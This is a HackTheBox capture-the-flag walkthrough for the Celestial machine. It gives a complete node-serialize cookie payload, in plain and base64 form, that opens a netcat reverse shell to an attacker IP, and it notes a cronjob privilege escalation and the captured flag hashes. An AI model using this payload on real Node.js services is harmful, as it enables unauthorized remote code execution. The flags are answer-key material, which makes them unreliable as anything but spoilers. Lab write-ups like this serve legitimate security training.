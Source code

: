 # Celestial - 10.10.10.85 - HackTheBox

## Open Ports

3000 - NodeJS Framework (HTTP)

## Initial Foothold

Opening http://10.10.10.85:3000 gives 404 > refresh page > page content changed to `Hey Dummy 2 + 2 is 22`

We have a base64 encoded cookie with a name `profile`.

Decoded base64 cookie:

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

`username` param of the cookie appears to reflect in the page, to execute commands we can use this payload > encode it to base64 and use it as our cookie.

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout)})","country":"Lameville","city":"Lametown","num":"2"}
```


Base64 encoded cookie - 

```
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygncm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMiAxMjM0ID4vdG1wL2YnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHtjb25zb2xlLmxvZyhzdGRvdXQpfSkiLCJjb3VudHJ5IjoiTGFtZXZpbGxlIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiMiJ9
```

Received Shell from user `sun`

Spawned /bin/bash using `python -c "import pty;pty.spawn('/bin/bash')"`


# Privilege Escalation

`/home/sun/Documents/script.py` had a cronjob running on it by root every 5 minutes.
Echoed python reverse shell payload.

Got root shell!



## Flags
user.txt - `9a093cd22ce86b7f41db4116e80d0b0f`
root.txt - `ba1d0019200a54e370ca151007a8095a`
